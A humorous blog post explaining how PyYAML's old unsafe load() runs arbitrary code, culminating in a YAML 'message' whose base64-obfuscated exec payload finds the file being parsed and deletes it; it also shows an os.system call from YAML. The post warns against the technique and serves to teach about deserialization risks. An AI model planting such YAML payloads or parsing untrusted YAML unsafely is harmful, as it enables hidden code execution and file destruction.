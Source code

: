 ```yaml
---
layout: post
date: 2019-12-11 08:52:40 +0000
title: This YAML file will self-destruct in five seconds!
summary: YAML allows you to execute arbitrary code in a parser, even if you really really shouldn't.
tags:
  - python
  - code crimes

colors:
  index_light: "#527ab2"
  index_dark:  "#8ebaec"
---
```


If you know the *Mission: Impossible* films (or before that, the 1966 TV series), you've surely heard the famous phrase, "This tape will self-destruct in five seconds. Good luck, Jim."
As soon as our hero hears his instructions, the tape emits a cloud of smoke and is rendered useless.

But would this work in 2019?
Modern spies don't use analogue recorders and reel-to-reel tape, they use computers and digital files.
Could we equip them with a message that would self-destruct as soon as they read it?
The answer: yes, but you really shouldn't.

{%
  picture
  filename="tape_recorder.jpg"
  alt="A tape recorder with smoke coming out of it."
  width="750"
%}

It's easy to create an executable file that destroys itself as soon as it runs.
The challenge is to do it in a format that looks innocuous -- at a casual glance, it looks like a plain text file, with no trickery or traps.

Let's talk about [YAML], which is a language for serialising data.
You can use it to store data structures like lists, maps, and text -- similar to JSON or XML -- and it's often used for config files and the like.
It's meant to be human-readable, which is why it's so popular for storing config.
Here's a small example:

```yaml
name: "lexie"
cat_count: 2

cats:
  - name: "Bailey"
    colour: "ochre"
  - name: "Bertie"
    colour: "black"
```

[YAML]: https://en.wikipedia.org/wiki/YAML

The basic YAML syntax allows you to specify simple data structures (lists, maps, and so on), but what if you want to serialise something more complicated?

You can use [tags] in your YAML file to tell the parser that it should treat the data as a more complex object.
For example, the `!square` tag here could tell the parser that rather than treating this value as a string, it should create an instance of the user-defined `Square` class:

```yaml
!square "0,0,10,10"
```

[tags]: https://yaml.org/spec/1.2/spec.html#id2761292

You can also have language-specific tags.
If you run this through a Python YAML parser, it creates a Python tuple instead of a list:

```yaml
!!python/tuple [triangle, square, circle]
```

To do this, your parser needs to be executing arbitrary code, and that's always a recipe for security vulnerabilities.
If you trust your YAML, this is less of an issue -- but if you're parsing YAML from unknown sources, this could be used to run malicious code on your machine.

For a long time, the default `load()` function in the [PyYAML module][pyyaml] was unsafe, and would run any Python code in the YAML it received.
This meant you could call system functions from YAML:

```python
import yaml

yaml.load("!!python/object/new:os.system [echo BOOM!]")
```

but rather than calling `echo BOOM!`, the attacker might call something more unpleasant, like `rm`.

There was a `safe_load()` function that would only load a subset of YAML that didn't feature arbitrary code execution, but it wasn't until earlier this year that safe loading [became the default][deprecation].

[pyyaml]: https://pypi.org/project/PyYAML/
[deprecation]: https://github.com/yaml/pyyaml/wiki/PyYAML-yaml.load(input)-Deprecation

Ever since I learnt about this behaviour, I've idly wondered if you could use this to cause the YAML file to delete itself, and yesterday I got that working.
This is shocking, disgusting code, and you shouldn't use it in practice -- but it proves the idea.

Using `os.system` is powerful, but the builtin [`exec()` function][exec] is even more powerful.
If you pass this a string, it tries to execute the string as Python code.
Always be careful when using this function, and *never* call it with untrusted input.

Let's call `exec()` from a YAML file:

```yaml
!!python/object/new:exec [
  name = "Mr Phelps";

  print("Hello %s." % name)
]
```

If you pass this to `yaml.load()` with a vulnerable version of PyYAML (< 5.1), it prints the text `Hello Mr Phelps.` -- but we could do anything we like here.

[exec]: https://docs.python.org/3/library/functions.html#exec

We could, say, look up the ID of the parent process (the Python interpreter that's doing the parsing), and then use [lsof][lsof] to see what files that process has open:

```yaml
!!python/object/new:exec [
  import os;

  parent_process_id = os.getppid();

  os.system("lsof -p %s" % parent_process_id);
]
```

[lsof]: https://linux.die.net/man/8/lsof

And if we can see what files a process has open, well, we could see what YAML file it has open for parsing, and delete it.
I tried to write something like this:

```yaml
!!python/object/new:exec [
  import os;
  import subprocess;
  import sys;
  import time;

  parent_process_id = os.getppid();

  open_files = subprocess.check_output(
      ["lsof", "-p", str(parent_process_id)]
  ).decode("utf8");

  filenames = [
      line.split()[-1]
      for line in open_files.splitlines()
  ];

  yaml_files = [
      f
      for f in filenames
      if f.endswith((".yml", ".yaml"))
  ];

  for yf in yaml_files:
      print(
          "This file will self-destruct in five seconds. Good luck, Jim.",
          file=sys.stderr
      );
      time.sleep(5);
      os.unlink(yf)
]
```

but you get errors from the YAML parser -- the square brackets, quotes, and commas look like they might be part of the YAML syntax, and the parser gets confused.

I hit this problem a couple of times, and I tried to be clever and write my Python code to avoid any of those characters, but it severely limits what you can do.
(Among other things, no commas means you can't call functions with more than one argument.)

We can get round this by doubling down on a bad idea.
If you want to get a string through an environment that only allows a limited set of characters, you can often use [base64 encoding][base64].
This encodes your text in a form that only uses alphanumeric characters, plus three punctuation characters (`+`, `/`, and `=`).
If we put base64 encoded source in the YAML file, decode it at runtime, then call `exec()` a second time -- that would get past the YAML parser.

Here's what that would look like:

```yaml
!!python/object/new:exec [
  import base64;

  encoded_source = b"... some base64 encoded source ...";
  source = base64.b64encode(encoded_source);

  exec(source)
]
```

[base64]: https://en.wikipedia.org/wiki/Base64

And if we do this to the code I was trying to run above, here's the message we end up with:

```yaml
from: "Lexie <lexie@alexwlchan.net>"
to: "Jim Phelps <jim.phelps@imf.org>"

message: "Beware Swiss villains bearing lasers!"

action:
  !!python/object/new:exec [
    import base64;

    encoded_source = (
        b"aW1wb3J0IG9zOwppbXBvcnQgc3VicHJvY2VzczsKaW1wb3J0IHN5czsKaW1wb3J0IHRp"
        b"bWU7CgpwYXJlbnRfcHJvY2Vzc19pZCA9IG9zLmdldHBwaWQoKTsKCm9wZW5fZmlsZXMg"
        b"PSBzdWJwcm9jZXNzLmNoZWNrX291dHB1dCgKICAgIFsibHNvZiIsICItcCIsIHN0cihw"
        b"YXJlbnRfcHJvY2Vzc19pZCldCikuZGVjb2RlKCJ1dGY4Iik7CgpmaWxlbmFtZXMgPSBb"
        b"CiAgICBsaW5lLnNwbGl0KClbLTFdCiAgICBmb3IgbGluZSBpbiBvcGVuX2ZpbGVzLnNw"
        b"bGl0bGluZXMoKQpdOwoKeWFtbF9maWxlcyA9IFsKICAgIGYKICAgIGZvciBmIGluIGZp"
        b"bGVuYW1lcwogICAgaWYgZi5lbmRzd2l0aCgoIi55bWwiLCAiLnlhbWwiKSkKXTsKCmZv"
        b"ciB5ZiBpbiB5YW1sX2ZpbGVzOgogICAgcHJpbnQoCiAgICAgICAgIlRoaXMgZmlsZSB3"
        b"aWxsIHNlbGYtZGVzdHJ1Y3QgaW4gZml2ZSBzZWNvbmRzLiBHb29kIGx1Y2ssIEppbS4i"
        b"LAogICAgICAgIGZpbGU9c3lzLnN0ZGVycgogICAgKTsKICAgIHRpbWUuc2xlZXAoNSk7"
        b"CiAgICBvcy51bmxpbmsoeWYpOwogICAgcHJpbnQoIvCfkqUiKTs="
    );
    source = base64.b64decode(encoded_source);

    exec(source)
  ]
```

If Jim Phelps parses this using his special IMF-approved message reader:

```python
import yaml  # PyYAML < 5.1

with open("message.yml") as f:
    message = yaml.load(f)
    print(message)
```

then he sees our message, and then the file will burst into (metaphorical) smoke before his eyes!

This code is dastardly, terrible, and nobody should use it.
It abuses unsafe YAML loading and the `exec()` function, neither of which should ever be used with untrusted input -- or ideally at all.
It's also quite fragile; `lsof` behaves differently across platforms, and this likely won't work on macOS or Windows.

Please don't use this for anything serious.
If it explodes, I will disavow any knowledge of your code.
